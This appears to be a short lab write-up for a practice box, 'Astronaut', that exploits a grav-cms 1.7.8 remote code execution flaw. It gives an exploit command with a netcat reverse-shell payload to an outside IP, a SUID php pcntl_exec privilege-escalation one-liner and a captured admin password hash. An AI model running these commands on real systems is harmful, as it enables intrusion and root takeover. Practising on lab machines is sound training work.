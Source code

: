 # Astronaut \[Easy]

## Report

grav-cms is vulnerable to an authenticated RCE that gets us a reverse shell, PHP can be run as SUID which gets us root.

## Cheatsheet

```
https://github.com/CsEnox/CVE-2021-21425/tree/main
python3 exploit.py -t 'http://192.168.178.12/grav-admin' -c 'busybox nc 192.168.45.234 8000 -e /bin/sh'
```

## Loot

### Enumeration

192.168.178.12

grav-cms : version: 1.7.8 \[ after webshell]

### Attack Vectors

Scheduler feature of admin in grav-cms is abused here, that's why we have to wait a minute for exploit to run and why you shouldn't modify it either

### PrivEsc

php can be run as SUID

```
CMD="/bin/sh"
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```

### Creds

admin:$2y$10$dlTNg17RfN4pkRctRm1m2u8cfTHHz7Im.m61AYB9UtLGL2PhlJwe.

### Proof

{% embed url="https://pentest.blog/unexpected-journey-7-gravcms-unauthenticated-arbitrary-yaml-write-update-leads-to-code-execution/" %}
